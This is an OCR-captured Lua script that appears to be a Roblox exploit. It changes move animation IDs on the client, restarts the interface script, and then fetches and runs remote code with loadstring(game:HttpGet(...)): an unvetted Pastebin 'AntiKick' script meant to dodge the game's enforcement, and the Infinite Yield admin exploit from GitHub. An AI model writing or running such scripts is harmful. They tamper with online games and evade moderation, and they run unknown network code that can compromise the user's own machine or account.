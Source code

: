 local plr = game.Players.LocalPlayer
local pgui = plr.PlayerGui
local interf = pgui.Interface

game.ReplicatedStorage.Moves.TigerDrop.Anim.AnimationId = "rbxassetid://12120052426"
interf.Client.Disabled = true
task.wait(0.1)
interf.Client.Disabled = false


local plr = game.Players.LocalPlayer
local pgui = plr.PlayerGui
local interf = pgui.Interface

game.ReplicatedStorage.Moves.BRCounter2.Anim.AnimationId = "rbxassetid://12120052426"
game.ReplicatedStorage.Moves.H_GUltimateEssence.Anim.AnimationId = "rbxassetid://12338287890"
interf.Client.Disabled = true
task.wait(0.1)
interf.Client.Disabled = false

loadstring(game:HttpGet("https://pastebin.com/raw/gsxvWvnj"))() --AntiKick!1!!11111!!!!

loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))()
